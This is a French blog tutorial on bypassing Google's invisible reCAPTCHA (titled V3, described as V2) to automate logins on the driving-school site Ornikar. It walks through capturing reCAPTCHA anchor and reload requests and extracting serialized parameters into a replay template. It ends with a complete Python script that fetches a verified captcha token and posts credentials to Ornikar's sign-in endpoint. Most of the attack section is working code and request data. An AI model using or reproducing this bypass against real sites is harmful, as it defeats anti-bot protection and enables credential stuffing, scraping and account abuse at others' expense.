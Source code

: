 ```yaml
---
title: "Comment Bypass un Silent Recaptcha V3"
date: 2021-10-27T12:00:00Z
description: "Comment contourner la sécurité Recaptcha de google"
categories: ["articles"]
tags: ["bypass","tuto"]
keywords: ["bypass", "recaptcha", "google", "ocr","request","harvester","captcha"]
---
```


## Introduction
Les Captchas sont des petits programmes web qui servent à déterminer si leur interlocuteur est un humain ou un robot. Ce n'est généralement pas dérangeant pour les gens normaux mais cela devient ennuyeux pour les développeur qui souhaitent faire du scraping web ou juste se connecter à un service depuis le site-Web.
Dans cet article nous allons nous concentrer sur les recaptchas de google et particulièrement ceux en mode **Silent** en version 2

![Alt text](./img/meme1.gif "meme1")

## Reconnaissance

Ce type de recaptcha est composé de 2 requêtes :
La première étant un *GET* de cette forme :

``https://www.google.com/recaptcha/api2/anchor?ar=1&k=6LcEN9EUAAAAAAuC_ndHLJkvdHXAp-pOYURWOMG5&co=aHR0cHM6Ly93d3cub3JuaWthci5jb206NQQz&hl=fr&v=UrRmT3mBwY326qQxUfVlHR1P&size=invisible&cb=cmpxv7ihx8lo``

La seconde , une requête *POST* :

``https://www.google.com/recaptcha/api2/reload?k=6LcEN9EUAAAAAAuC_ndHLJkvdHXAp-pOYURWOMG5 ``

La réponse de cette deuxième requête contient le token captcha qui peut être utilisé pour une requête de connexion.

## Exemple
Essayons de nous connecter à [Ornikar](https://www.ornikar.com/), un site pour passer le code de la route .
Dans le debugger chrome ou sur d'autre logiciel d'analyse réseau, on peut voir la requête.

Ici sur [HTTPDebugger](https://www.httpdebugger.com/) :

![Alt text](./img/HTTPDebugger.png "HTTPDebugger")

On retrouve :

- L'url de connection : https://auth.ornikar.com/api/v1/sign-in?app=learner-webapp
- Les Headers : Accept/User-Agent/Content-Type/Origin/Referer ...
- Le PostData :

```json
{"email":"monmaildetest@gmail.com","password":"SuperPassword123!","_token":"03AGdBq264jO-H4YYmiUhESUbvqL-Jz7YuFfrWL0qln_OC39lOvHZe_w5Aezgsuo7IdNFvz3XeCfeACXZXBBmQHHH_vOUHQcBCpdl1Zv2-TcSHzBcG1EJEilkzd832oRiKwIxkqzGxqdhNf2Rqw3HfBc5LiFqvuYCkEckICWv_q8O8orbVxkp4-zSL3xk47LEqouiGtkk3cyhr4JLX3EIeP8RvO3klf0p7_eHWwHcobX4HISGCwAxBuA5YJotDSalDuNcAYUDpiAlRgf3HR9qBHLD54nPd_9oJqhiLdv0s5q0ZoEsfjwJkMGIjxoV2LoUIBBqXwF8eG_-V5nzGH26ltXNeEqRi-NJuNX40J-D_JMW3EzTLdQ_7GWlPwZXc-Ag6GYsx2jtwGmGafDb3ugK7eC5upbmHTfjNhftaWj3niQyFERTLqHbW96dYRiyklDfgPVhLbWHCUo7ocCe57mpzLdng1wjAznQ"}
```

On remarque les 3 paramètres :

- email
- password
- _token

Dans notre cas, on ne peut pas se connecter avec un script car nous n'avons pas la valeur du token. En effet celle-ci est valide **une fois** par requête .

Il faut donc trouver un moyen de le générer !

## Bypass

**Ce bypass ne marche que pour les recaptcha Silent V2 , si vous voyer une requète avec https://www.google.com/recaptcha/api2/bframe , ce n'est pas la bonne version et ce n'est pas bypassable !**

Reprenons l'exemple précédent.
Actualisons la page et récupérons l'url commençant par `https://www.google.com/recaptcha/api2/anchor? . . .`

On peut extraire de l'url :

- ar=1
- **k=6LcEN9EUAAAAAAuC_ndHLJkvdHXAp-pOYURWOMG5**
- **co=aHR0cHM6Ly93d3cub3JuaWthci5jb206NQQz**
- hl=fr
- **v=UrRmT3mBwY326qQxUfVlHR1P**
- cb=cmpxv7ihx8lo

Puis simulons une connexion et récupérerons le PostData de la requête commençant par `https://www.google.com/recaptcha/api2/reload?`

On devrait avoir quelque chose comme ca :

```
YhkYx1k-yvvb8OonJPmOpoJYù03AG ..."ä[13,87,82] !IyWgJWjIAAa- ... OfnIrQUUPxAhAHCdFyD_AjxYvI*-2540174922qBsign_inr(6 ... (Trés grand)
```

On peut se rendre compte que le contenu est sérialisé avec protobuff .
Grâce à des plugins de fiddler/BurpSuite; j'ai décodé et j'en ai crée une Template pour créer un post data pour chaque recaptcha

*Magie Magie* :
**v=()&reason=q&c=\<TOKEN\>&k=()&co=()&hl=en&size=invisible&chr=()&vh=()&bg=()**

A partir du premier url on a déjà :

- Le *V*
- Le *k*
- Le *co*

Dans le **postdata** on peut extraire la variable **chr**.  
Il faut URL encoder la partie qui ressemble à ca : [XX,XX,XX] *Dans nôtre exemple de post-data ci-dessus , on aurait :[13,87,82] qui deviendra :* **%5B13%2C87%2C82%5D**

le **vh** correspond au nombre à la fin du post-data ; ici : **-2540174922** *(attention à ne pas oublier le - parfois)*

Enfin le **BG** et la partie qui commence par *!* juste après le *CHR* et qui finit par **\*** avant le *vh*

Finalement on a :

```
v=UrRmT3mBwY326qQxUfVlHR1P&reason=q&c=<token>&k=6LcEN9EUAAAAAAuC_ndHLJkvdHXAp-pOYURWOMG5&co=aHR0cHM6Ly93d3cub3JuaWthci5jb206NQQz&hl=en&size=invisible&chr=%5B13%2C87%2C82%5D&vh=-2540174922&bg=!IyWgJWjIAAa-OPf7vjhHcCY0RQRzbZk-ACkAIwj8RmjdaFTc0dhDJhieNXGLwJ0e8aBgHQxVNWMSkAxkTNl9AUafuQcAAAC5VwAAAAdtAQecC_cGglx_68zIYp4cbqolrYvI6AmQqOOdrDkvEbirXRRExYfwRNjMaM5zeaFz8zT1BcVrogw2iM2xsFWoDtyg_oAYo0fTVjAO3tBT7-SspdT9ls-my9vzXQcDmyTXERnvClNzlYUnWJW9IpvFlB8sJ6gVVFkPflBftE6olMNeiL7P7thblpaZI-P1jMY3aEVAksn5nhivDIVrM7hnqEPHEfPo3ZIxYLuzkrZ6f79AWb2DMxRI4IwYvdwKHkba2mE9JcfKUTuXIXU0AYbHcyXTnJo_9LUiVeIwsjMrtFD2LeL8FpmICacs8pA1PvNpeOdc_e992xv_b27v7XncL5CfitoMFdagC8br26VLnc0lo7Py7pRXijXj2lchYELIpae86HZULiZN59F1BubDN20EipvN58rUAuLhdERenyXQDv91CLLrzewDHXDzyq6CUCeRerGI5Ga7howOJgRqVH5l4jkvulgA51ARMUQs4hGHRylhFPs5Llz3l-MD4xFAh-GIV3USuBleRO6b3mxrmO2KOYvIfzQpuVTK4kl6356Oziz-BUlQR9jQhkMOv7gyBYNoOlDWNdkN_S_iQ2BzKeJjqfjmuFGQv0UwBbtEsm3ZMido5ulabhbxvJWsfeyARPiieT4F6V9yLzIR4hyBFO6hoXZEpYdaYnWCZRSLmx0hLtUSUzZZq8_Bf99b0BDqvzWa3ukW_0_LC3fhqW5tjGq8Wuwr4dgA1B4SxQpIp4veBp9EB4uA2dCmpu2tHJjSX4Ob77mqdC66U2q_jNnFplRH1tSUXRn0hGaydyMmJJiJhWi91CrydUBZmKl28I-mIHYdLrIxWuJQVQAyZyK4fMKkyNlCaZZEyoaWZkxCxP_Is4tgmjFv3iaOCBwDj9FqwGApbONbd4taeof6AHBllxwf_ODd9e4WKajPsGQyGBvodGGJCPuvNb65w003VK6WDH4Sflzy8rkDH8ktdeCJ3ruhOJ3yCytPtsiC6dzmzV_CZPqervCY9Nfl6MTAAz0NXC6knMnImdqKXxqB3n04qs16naF_2VrUCyc8SH7gHzp0CmLhhYAi91OhZ0lnMmbOdIE9hJFcWDG14uK-8__OSqEGz694sghNGILC689xwPqOJ8PGAtxgMtZOvUjkM6InpZ2KLcsWex1Id9zTtELc-6Eb5mzJpsjKxPkJQ7LZeEpzJmfq8XWh-ZyTVqkQdHklo8Q67kjg75fxf-ICwDAd7tTVr1pX2cA01oGSf3ILPhCgYYCw7r0OYgZyi0G0iBNsZxHdioI4ywAkUxDCJObxFCa3sZrBzt5ZAuoAj2oqnKAz6Pgx8zygnThA1pIhR7qLJ5TnrDAv8sVKVFjTA3eOz3r6BDX9r0GkAnpt_8TQtNR93IvLVKjhSexX9HfKdH0TL97_NdqMwREsxGKF_MtPSHocU7jvg3f1v0SwhF2CrpNmKG2hiUewZ-dpd4jPQlxMgyBYeKtB5XbDExmsQ7wB-1OcLaDpPMp1QiyhpJr5eVuxMD7nTHZY33ysaVWWckLG7vy2fU0Fh5LRMrniLNbblD3mdZxSEHzAYIt_K2dxHSme5TAfhCcd_UznZFEoQ6xhCDEAWO-ILohm8no2eWh4RUkwNst-ei648FHpYQgyWH751-DYtoabXmW6VJF2e6KyUh2fVPISls0fIDC3AKZHmSFBBKIV8900c0Mm5QUe4WT6OuvfD3vfVQCkg811X-iExaismz3YM0LtwkAtoIgfQTrBLSsUCJoL92B8Fk0GYoYw52FWn2TdimUYpR55EDg93onfh20aJgLGRtrSr1crWdsvueM-THylGYl_u8CqW08ipjCYB-YOpnvXQWomqWGBaUX9FNLFt3kDw423k8iL4kFrEM6Fe1K0-dlbcWDuq3qcAwtTLrQyGIgyvCC4IV_nnk-NMzvAV_9WrCohtgxOCtTAUNzmKm15RZ9gd4z7HDx6bYHCNOajVgfE-rYNsWKyEm6OMj37_QeW6WeS4M_1Kdt8fi1LmYOA41v0Zf1ao0q_mYCZt_cPfKph9hFIr8H1Pl6PUXcHZPHInxkQegNMRl3eeCqZPQSLQKudM0l_AH4LTuuy0FvPj7FTg3vHb9YdR_IIM4mLhq3Pg8cmvyFZg0IlS-FyjvSDtgDRIUhSx0Dlu5zCKRhlt9mdllacoKpREdoxtya7fbHzT8QDi1_0ffRmvFogI-KeMNiDqom_pNIWCgnDug-FOuqTPBazUDcz6s3qcYnNwL7KeP0KOe4Sv5cfSI7NZnhmPaYWUSL70QY-ru2sPhOokSSM_GZCaML0x7WZZpToHzDhvt-qX53ozdKOn3Q3hN89c_p8nYmKoANX0oNtcpBH3UXXnGI2JKTp1K0adreZofiSHOUoOWt-rofbz09xlfPxyBaROBagHh9A76xBqN-hc9XX13Iz3Ay07wRpo4g0-glQfefYqw4XWlwT05W86JlEtXhrjVL4wyiXB5lGNRhIIn60a5KAPAHuBPozJ-_9cRZVV2fEt6RGWKg4ZoqIKaI86FpJ4vu0LwBfWN-8tXMgITy7RIftIchmiOvKHiJ_wvOyX_eINSM7yDqkIBOhennKxDXxvBTFosQmJhXnQ2N2PpVE6ItVyEpsY8OjlPGRkeBQnQXHt33UQWjTxN2AqaMq8obP61aIJoHB48wl4MZ2YggLdUrmjd_6_tOBZUco1b7usTatiapSd55iNffk-jVidx7GxokqO7J6QDzPTaA42ZenHeKq95jGDJodg7VDKzrKaQdw1ohbtNEMpMm7ByodbLbNnTyGFqOJ33cdzp_VDx61z2tTeMFen9m4WVCRVsC-P_1At0amRo892yUR1G3xYdFoOhDzfiqTTGmJJsZM4bPqRXcA5MY0_YgQzvs_QoFPL1peN7mfNEmxRTgWb4eTMUcXmdU8zaKvmDYB8D9J5ghTCcOsCU2u5voKhIn9hJwX3VoHXg5FXZPoQkePR89nEX0krYZfSdqqOK73mcE6TP2Cin657wdXgNKsMjuN6XVax1xJx6q_Oc04cFhimFBq32WqEEyLt0cFiNrsmjn3Vf03Nkg_nKkoJirg0oHuAUu9rLrJJxaR5oroNAcg0EFZfjUMbllgCdyhZYK-Rr8s0T4xB6uGTNEZLYY3xAvHXZfDGdJuIL_S_saP8iPbbPfVgNnbsJfIBljmPQdKbS395612WAGOEZwclLWKIx9mQdswD43soevg5vmal4hXHwMyuQ7ttuRt1pgdx_Bwx-a0KVBaGNzomwUpi2-olwPgDOry6HzrXArItJJNjRAmvKo2V5w645EZJF_PlXClr-_Y_4rbhFlrh1XBZYpp2VPuoCDmi_gE61FDR7boslW7oSnNroQt1qAVjnjArV6O0eE9ECIJEz83T34ZVnJPusB6KZE46lYg6ouGEE_d_o857tJc2zqmCshHl0H54kg-DJgxBs0_w6aHQgbDVT-bfBiTT5EyuyrWGDpdima5z2jQQP1pIgYnDToB1cNFsri7qUsJXNOLMU6AlfF04LtuXeyt274gTl_sFg_7XWqjjOoGrfILx4j1YOoZsoTZClqoSz_J-juscokSExbA9gPvAY4Evj_manobc0eLPcWI_1ixnTTgBJXJ6tkCA09BTHdgmChW_LZoGcwk8fTauiAsP3Cae8YL9OtCSkU8Tq0clm4WFTBKq7z563xV1GSUZiPqfXvm3zCEcBQfsMtmGN2A8dMym32RJL-91ICysucjlVcgFyoREmEfFFQBi3UJBxxwkJxLjhs3LDPIoR2PeN3kLRQu_7u46NsBDVnNM04_q1re2uAflfvQeyQXhYcV6iWWZN2nqFzwkSIqaI8z50MW1hx-KL6aPYtZ6D3Y7N7K6BB2LX8gpRMeCOAtFMVLgTZMapczkNhE_9Kf_9CR0cVV6lVdRNqNCtB9sKts3_2BKJASTcOfnIrPDmmXjTpC80VBtiFJGBcuxsFCK3_zesjyF-swb7ySc18dOLzpwK91eFK6lqfYVj6dO4ckI0ruH_bPThcvnpRAkxMc95gZnlFPqFzMayZCyI0hiRJyWP4F_aGRPkaqoAFodLQUUPxAhAHCdFyD_AjxYvI*
```

Notre template de postdata est prête. On peut maintenant à chaque requête le token qu'on récupère dans la réponse du GET (*recaptcha-token*)

![Alt text](./img/token.png "token")

Et voila ! On récupère un recaptcha vérifié automatiquement (*rresp*)

![Alt text](./img/recaptcha.png "recaptcha")

Voici un script python pour se connecter à [Ornikar](https://www.ornikar.com/) :

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import requests
import urllib.parse
from bs4 import BeautifulSoup
import re

##Urls
urlGET = "https://www.google.com/recaptcha/api2/anchor?ar=1&k=6LcEU9EUAAAAAAuC_ndHLJkvdHXAp-pOYURWOMG5&co=aHR0cHM6Ly93d3cub3JuaWthci5jb206NDQz&hl=fr&v=YhkYx1k-yvvb8OonJPmOpoJY&size=invisible&cb=ctd9gmy8wd8u"
urlPOST = "https://www.google.com/recaptcha/api2/reload?k=6LcEU9EUAAAAAAuC_ndHLJkvdHXAp-pOYURWOMG5"
urlORNIKAR = "https://auth.ornikar.com/api/v1/sign-in?app=learner-webapp"

##Variables constantes
k = "6LcEU9EUAAAAAAuC_ndHLJkvdHXAp-pOYURWOMG5"
co = "aHR0cHM6Ly93d3cub3JuaWthci5jb206NDQz"
v = "YhkYx1k-yvvb8OonJPmOpoJY"
_chr = urllib.parse.quote_plus("[30,85,0]")
vh = "12637701362"
bg = "!b2mgaSTIAAa-OPf7vjhH6qbB86JcZaQ-ACkAIwj8Rqwi-LZJH1mmOtPmiT8KKX94556Z0uUSOdyGXSMDWTujzROSuAcAAAEDVwAAAAVtAQecDRWmBBNdfn3Ady3IUrxZ6Ble-zzWoqrvYnPyRXBK_BTjJa65hFj1QhQaP_ocZu8QVh7SIsxfi3IN3DVkfWU0EvtqMUfIqz7tZ_IFtoomS3JlgW-z9sDf7O--vMnAVvnNYZDHDO9AuHB3ld9vZvld2MpTOUPFRJPSdZKDVWvSVuT5bqXq79jYHIwwfbLPoy_-90G4kR1NzVK9WFl_7GQ5ZcAMyoFCaEiDmyir1C8RaCTBOGw8cyI24zZs_4x-qalA8tCbiYfV7-WsH7JWix53_A0VQc1R6NhnCJRD16Ro3jlC9T91BZCwxtx9DL9b8gz6mpwV0LYOsTT8wCnh2AR5c3vTQ3pELYI7EqzEkxNvpi3FiocA7xwMjeUEGCEtiG1ICiEv-PmwdfEaWPwCPfNXOOjM5hT12uYlJBfLZycvQ0DehmeMCDjySXyH2YH-tQ-riwHEeBO8PjI2Yf2SlKuSNoY-Ci4LyGVPrqj4Rh4n51jhzEz0QQ44_AXl89mQcZFKbQAW9vnVGsIL45WFpag0uvlRs3j0dK2ZMWVyCIuOdetZ0G-SNotcixAbrpS9RwTeYfUOigaY6iTOvYGRRSHF5pdnqSPWIfLz2fDZtGWtSbLA2uFhT1BAfBAqKswkZNBBY3kQqDDIm8Bk_b4TRxwpnEGq3fMphWFkZejbcu2BGK7CjAolV7whs-kPE285inOf1yXzjETr4p8TiFTd5IPiZyKCLks4DQiMegA0cOYaEGDRfSP9snTZSMrOYtIdOZcU8K3hV3vaqqdEKlczlhb1fpb0ac52TUFFWN8MWaF7GGzE0v_9aLQnWDxUHsOfCNg0Q08_3ZO-dDNZV7UjU8G9IrwuAS7153boUP_R8ZiBOdCn9IkM2fUBkKrVM_XKTJ8DxAos6bw9JcU4bufblOWkxo2Wrn-swVhfuIKS86MxY0NwkFTnwv9tSX6kcK-NbVoFfS_z25j4jDIfLmcOxHX3BRb7YAeGOB_6Ry7KNDEU782jts0NaPbvJIEgb5mCdB6eeaqPIEm-uZiOlxz-J4QMNHyxqe_bHbCuTMNYir39WWJ--Wtz1Zev0VsmCEtmDSWBefGhgi3fdOt8CG-kBROGph4rdLmb4EZ1M1hazm933qOcQGAwZS1qRSVMr_YtulAIcjsFfGZPxQtI_ZLzJwGACYJznVlvkfDzkvL6PUo4tuIgY98MLmHJ7WBTzXKysRJy7d5H5dvQCi5hTQITDh5UuBznHEf65pbZ8DkWfSzw9iqTMFdX7FecfCDTRoPFsA5Shpmi9HHvDcV5JTi1h_4qQPQhmAWO6GLc_tjwo3UZGwXQdeP1dsnIgHmbbVkz39mY1tT5OfDzgeQkDfn11kLYccyC7iDAXeZ-tyXMZ-_QQB3YIQ0p0XWKjpVrLlOchGjSXyolaP6zvrFgf5r47zXIJrE8zRhZw07jwxl-FBDWXiFYiXQcRcOE1gQjC80EwTusghjfjtxW_oRrVRV9te1R2medk5nkLDylBSPXsU4c7LtDRtoFA16kwfFcfJY0IbmwCJRXkCvAW4o1xJVA1ZVNWxcGI4_IOSdVHgCFI8VEZ9fcb_NpezU4VOt0wGz_OJjkMkTrmfqnfpXSDBw4zSjOikz-vapJCKLhrhE7TPBkutHKF-f_4AjM7o52KW-Cwb0nWx28BTminpxiyHomUPO1f17kHHRfgkxOdbhM_qA9Yz5_xHwER63NTsk5082IPGAv41jrYTjnawD0PPBe8Pzjzlkn0EvakutCPu2pNz4fFMRgjaTzrh-aFIVzDdzLHiUI2OTWtJYYZS7iPl5IFM26Ca341u5LotOVRKidG4pBfdY257ZVLHJp5LqKgMw4jRZ5vtroPnYT_G6zgQ1VubnHKJHClBJrbcWr06UHsMjEl2CSCzhT5sQ3wAD0Qv7uJLoAq7mFliwLEaQynunyvYOo3QgPHhQkada7vV7dCqv7XvTOqqmpBPk1yzILAPvGEJ3UwtEFYgSb2QEw31R2pmmiYYAvR8JUiddkVZabreguWDb3UNHiC4kyT8LO9v5cnTEGcbzpCxELSpWS3GIEAr_sfukhpy8SauDGT0PR3uApJ8UM5nLsMDMIN7Oi-G1n0oaca0nRVcobOrPqAPQayk13UoDSO1r0K9Wf8ttKAB12tuyDIn4e6DGyZkDg_21yXezFGEM8EXpUafUVqzoLglwUBcsp3p_4iTZuhcr5OxLZGdubzuGnXFctm_EakPF9zjYWAZ1eUzXs3dofYP12qBetvpVjKfyXj__tVFxVYuN1pJMGdZ0LCL55qZ6T3oaPy40JnadzGowsoEUwEeQGxG-1A5vjYuXaTOvL4YzKptUmcN_b-oqvEW8eBhLL0ek_1hJ3ZAbiVFPdlPFiurMCIvqR2BCyBZjqi5I8QWwp2KlcQp8Dzf76d_X821tSSHTDCndOB91txj1wU_ZOj4BJks2wu09v6T90nxZDwV9QzxEcxCivzRVv62osFjDv2Y_7_y-A-sAy08eDc80uLTYfA4zdSKTB_A5QIZn6WnT3mpyWLQ9bmFGEeJ_rJELY9mOo2cuAaJSNp7slsn0QN7wgoer-GPZSJ60JcW_UdHw0tFPuMTpZBZAGbaIWq7gkk8hAw0ifcaJA1HJcDwrVPCs705tGa5dW0c7rsWVNUIGVzJkvKy8WBz8ZGxlz6X0nMbuxIHVz5JGqcj1aQv_1BLnK62zjSndRNFGe8GsbgdO2i93zC_t2Nzd0IP9H3qSbcChKwAT8KYAcfPYbl9mT1LaGakczgRwoLh5HKb47ouMm_BkEhCaJ2t4jMK415POfPzPVsMBTqNfAlW61pgKtGBZAj6vJyecotQSC4yg-xAnm2EOnmv1Gv636z3d7KzyCI-McD3UE_iK2sfpXE2ePNGvJN06y0QgodGEPWWN46gQ6AmRRdAXC_3JM8BkiBASeaaN4L0kgiR9g9eaDaz57wdZCzdVWJbfvvlpRk_EqrEXK786OMTJ_4lGPoPNliHtmESsd5YDtwuf3d6rkqcOYde7mpC1yO6djhbJooVwwwR6w0c1TFA0IPFIojXe5-zoZfIhIM-1gQyfGLaWOf37rNhdwZEqkjG1itXgtHoknPsX_lO5F_VnCqYys6Zt_x_HlBQGm1U6jUnBzSBs2MbrszNhPVgSV5Aai9O3Lg2hTVdz8VVksYikWpslq_rnmgr4NniK1UUZE-nQqtr_PG8T5-NwXt9l0sQRDB3OPV7Da7A5gfYv_8iSMDwHs8AjQZ3WXxxcEkFGAD1_O4f8kyLDvbv5TLJz_JAOzx17HL6VPh_SCbPU77EnPkNH4uLsXdx58LXiB-7Vglx_RAmVNPttogge6rEoQgkavefKvaC1tTwkFzwjT1RqefrNUvvVBT4aEshtBeO41a9XAvaudBKYctfduPNQf31NdHLntiOnuEsatCDE1ILrmQK0SdlonKEYrQw3HeMAQdazsUO760WJ5wxHy1AWWNfje7rRiYprKk_B1seFIwhiBk9_ajJiVGW6MXYKZo3pPPXq9Texu89bscvhDR5H0-sl0yOoW8MonMT-OPINN11RwJqexjRwbJ-iajXuIzxS0u1zIikcWJAhaf4ZdYeG5IDG8Ql7A370ud3p5_pviDXiuGXrN3mC9uyNJVILQiDbNLklGSOfWPm5B1cO6X_7VZkglvUKUlk-_Q0jAishk8Hh65M9KtvPRJl0yuHo5nD4Z01AdRhCFTbWlkDVwwPTBG8Jo3QcVD8SgfyKr11vt1zkchqBi2Ml0EvWF_NZqksu4_Smh1eWj_a7M2_B5h3cMKnb6n8-BWoWQ8g39n7lNp_v5sG5uohUlLNBenKGXbZWN7zrsGjz9pgez4XRlwX-b6qva1Utz4KkSi3Au7j0YKe2PU2Lo4RNBcMRWOjqz9IMDYdSfpDG3AOUenRqft0yg8cPma9a5iJBFfBLjUR7YCgJJ0thHUHKFHUI1VhCCAno_haOTpB2aaeV8-bPl5GhU7fyIZ62Woo9ElL2rbYCe8YbfYysGygxFpzjJjfB3BvXXTIbGlZ1On_Ag73nyacfbuuR889k6xG2j7FEVs4yACuqfqjmcxA9mUqXSkXy-zCEx6IPQkmC9UddYszqm4oMJUdLPPm5Ve80wTZVF5FpPLMQT9vrM4OvTlTEfqcVbh_ephS4ql7vyoUFfQlUD8JNizOMExUXW4VkkW9bfHImFW3Z-EX9dR2NdW1_eqvF4W0-ABwzz_u1_LMm6C6ya7gdg638abQ6nzX4vspEXOOujuj00m6kZQq-jf6ak4mqAiG4Te9hXYZ0QQ6spEakSSz8SKmPPxwbfjkuumwCYyoBoJiarszJwgaAYB68VT4gCICKi3VdaMoEzff4R__axLPyFn_o7C5InJY4-HlftGLa2iISStuo6iQqgdQFVGflv6lDcbTAtCSW2MP_W-qZBgLezU4lrw6amFUH2dzxUhHIsmg5iqqiWHTKc*"

## Token Variable
r1 = requests.get(urlGET).text
token = BeautifulSoup(r1, 'html.parser').input["value"]
print("TOKEN :"+token+"\n")

postdata = {
	"v":v,
	"reason":"q",
	"c":token,
	"k":k,
	"co":co,
	"hl":"en",
	"size":"invisible",
	"chr":_chr,
	"vh":vh,
	"bg":bg
	}

## Token Recaptcha Final
r2 = requests.post(urlPOST , data=postdata).text
recaptcha = re.search(r'\[\"rresp\",\"(.*?)\",null,120', r2).group(1)
print("RECAPCHA-TOKEN :"+recaptcha+"\n")

## Login Ornikar

postOrnikar = {
	"email":"RecaptchaBypassIsEz@gmail.com",
	"password":"SuperPassword123!",
	"_token":recaptcha
	}

r3 = requests.post(urlORNIKAR,json=postOrnikar).text
print("RESPONSE :"+r3+"\n")
```
Disponbible [ici](./files/ornikar.py)

Et le résultat :

![Alt text](./img/final.png "final")

Bypassed !

![Alt text](./img/meme2.gif "meme2")
